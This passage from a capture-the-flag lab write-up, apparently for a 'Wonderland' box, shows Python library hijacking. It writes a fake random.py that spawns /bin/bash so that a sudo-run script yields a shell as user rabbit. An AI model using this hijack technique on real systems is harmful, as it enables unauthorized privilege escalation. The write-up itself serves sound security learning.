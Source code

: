 ```python
"I deeply sympathize."
With sobs and tears he sorted out
Those of the largest size.
Holding his pocket handkerchief
Before his streaming eyes.

"O Oysters," said the Carpenter.
"You’ve had a pleasant run!
Shall we be trotting home again?"
But answer came there none —
And that was scarcely odd, because
They’d eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

Usually, python is most easily abused when using a function like `eval()` where you can try and inject commands to spawn a new shell. However, this program is unmodifiable by us, and there isn't any user input. But, we can always check the Python import PATH (not sure what it's actually called but that's what I'm going with).

```bash
alice@wonderland:~$ python3 -c 'import sys; print(sys.path)'
['', '/usr/lib/python36.zip', '/usr/lib/python3.6', '/usr/lib/python3.6/lib-dynload', '/usr/local/lib/python3.6/dist-packages', '/usr/lib/python3/dist-packages']
```

Since python is checking the current directory first, we can actually do some hijacking. This is something that shows up in a bunch of different forms in CTFs/security (e.g. DLL Hijacking, function hooking), but the general idea is that we replace a dependency/library with one of our own, causing a program to run our code instead of what was intended.

In alice's home directory we can create a new `random.py` file as follows:
```bash
alice@wonderland:~$ echo "import os" > random.py
alice@wonderland:~$ echo "os.system('/bin/bash')" >> random.py
alice@wonderland:~$ cat random.py
import os
os.system('/bin/bash')
```

When the walrus python script decides to `import random`, rather than import from the library that comes with python, it will import our "malicious" script instead. Since we're running with the privileges as rabbit, we'll spawn a shell as that user, instead of a new alice shell.

```bash
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ id
uid=1002(rabbit) gid=1002(rabbit) groups=1002(rabbit)
```

## Shell as hatter
We don't have a password for rabbit, so we're not going to be running anything with sudo anytime soon. Let's check out rabbit's home directory.

